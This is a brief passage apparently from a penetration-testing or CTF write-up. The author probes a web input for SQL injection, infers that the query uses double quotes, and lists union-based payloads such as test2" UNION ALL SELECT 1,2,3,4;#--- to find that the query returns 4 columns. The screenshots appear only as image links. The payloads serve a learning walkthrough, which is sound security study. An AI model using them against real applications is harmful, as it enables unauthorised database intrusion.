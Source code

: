 ![](/assets/obsidian/8a7cf141910c3cf9e87d0af862432ba8.png)

- Didn't get the result from payload : `test";#---`, assume that SQL query is using double quotes

![](/assets/obsidian/fd23a13760c65ad0f60b3df28279a2f3.png)

Test union based SQLI, find the number of columns in current table, since I got a table result with `4` columns already, I will start from `4`

```sql
test2" UNION ALL SELECT 1,2,3,4;#---
test2" UNION ALL SELECT 1,2,3,4,5;#---
test2" UNION ALL SELECT 1,2,3,4,5,6;#---
```

![](/assets/obsidian/989c20d6f1a4bd6f82280b06fd876ada.png)

- Successfully identified that the number of columns is `4`

![](/assets/obsidian/0d1612fdfa32f351e2f267aa8c18486a.png)
